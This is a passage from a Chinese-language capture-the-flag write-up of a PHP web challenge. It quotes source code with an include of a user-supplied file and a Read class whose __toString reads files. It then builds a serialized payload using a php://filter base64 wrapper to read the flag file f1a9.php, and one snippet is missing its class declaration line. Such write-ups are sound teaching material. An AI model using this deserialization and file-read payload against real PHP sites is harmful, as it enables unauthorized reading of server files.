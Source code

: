 ```php
}else{
    echo "you are not admin ! ";
}

?>

<!--
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];

if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
```



看了源代码，f1a9这个应该是flag文件，那就不能直接读取了，再读取`class.php`试试

```php
<?php

class Read{//f1a9.php
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);
        }
        return "__toString was called!";
    }
}
```



配合刚刚的源码，可以想到用 反序列的方法去读取f1a9.php了，于是本地构造下序列化字符串。

```php
<?php
    public $file;  
    public function __toString(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file);      
        }  
        return "__toString was called!";  
    }  
}  

$test = new Read();
$test->file = "php://filter/read=convert.base64-encode/resource=f1a9.php";
echo serialize($test);
?>
```
